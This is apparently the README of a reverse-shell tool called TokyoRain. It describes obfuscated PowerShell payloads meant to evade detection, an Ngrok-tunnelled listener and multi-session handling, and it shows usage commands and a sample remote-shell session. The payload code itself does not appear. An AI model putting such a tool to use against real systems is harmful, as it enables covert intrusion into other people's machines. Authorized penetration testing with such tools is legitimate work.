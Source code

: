 # 🌧️ TokyoRain

让PowerShell载荷像东京细雨般隐秘

## 🚀 核心功能

- **动态混淆**：每次生成不同指纹的载荷
- **隧道穿透**：Ngrok支持内网连接
- **多会话管理**：同时处理5个连接
- **终端美化**：彩色命令行界面

## 🛠️ 快速开始

1. 克隆仓库
```bash
git clone https://github.com/9Insomnie/TokyoRain.git
cd TokyoRain
```

2. 安装依赖
```bash
pip install -r requirements.txt
```

3. 启动监听
```bash
# 基础模式
python tokyo.py -l 你的IP -p 端口

# 显示原始载荷
python tokyo.py -r raw

# Ngrok模式
python tokyo.py -n ngrok
```

## 🌧️ 使用示例

```
[+] 新连接: 192.168.1.15:55328  
输入会话编号 (1-3) 或 0 退出: 1

192.168.1.15:55328 > whoami
desktop-9ins0m\admin
```

## ⚠️ 注意事项

- 仅限授权测试使用
- 建议在虚拟机环境运行
- 遵守当地法律法规

## 📜 开源协议

MIT Licensed | 开发者 [9Insomnie](https://github.com/9Insomnie)
```

🖇️ 让安全测试像东京夜雨般优雅隐秘
